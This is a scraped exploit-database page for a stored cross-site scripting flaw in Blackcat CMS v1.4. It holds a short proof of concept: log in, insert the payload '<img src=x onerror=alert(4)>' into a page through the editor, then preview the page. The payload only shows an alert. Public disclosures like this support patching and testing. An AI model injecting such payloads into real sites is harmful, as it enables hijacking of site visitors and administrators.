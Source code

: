 ```yaml
---
title: Blackcat Cms v1.4 - Stored XSS exploit
url: https://sploitus.com/exploit?id=EDB-ID:51604&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-07-20
fetch_date: 2025-10-04T11:51:50.795930
---
```


# Blackcat Cms v1.4 - Stored XSS exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Blackcat Cms v1.4 - Stored XSS

2023-07-19 | CVSS 7.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=EDB-ID:51604
Exploit Title: Blackcat Cms v1.4 - Stored XSS
Application: blackcat Cms
Version: v1.4
Bugs:  Stored XSS
Technology: PHP
Vendor URL: https://blackcat-cms.org/
Software Link: https://github.com/BlackCatDevelopment/BlackCatCMS
Date of found: 13.07.2023
Author: Mirabbas Ağalarov
Tested on: Linux

2. Technical Details & POC
========================================
steps:

1. login to account
2. go to pages (http://localhost/BlackCatCMS-1.4/upload/backend/pages/modify.php?page_id=1)
3. set as <img src=x onerror=alert(4)>
4. Visit http://localhost/BlackCatCMS-1.4/upload/page/welcome.php?preview=1
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)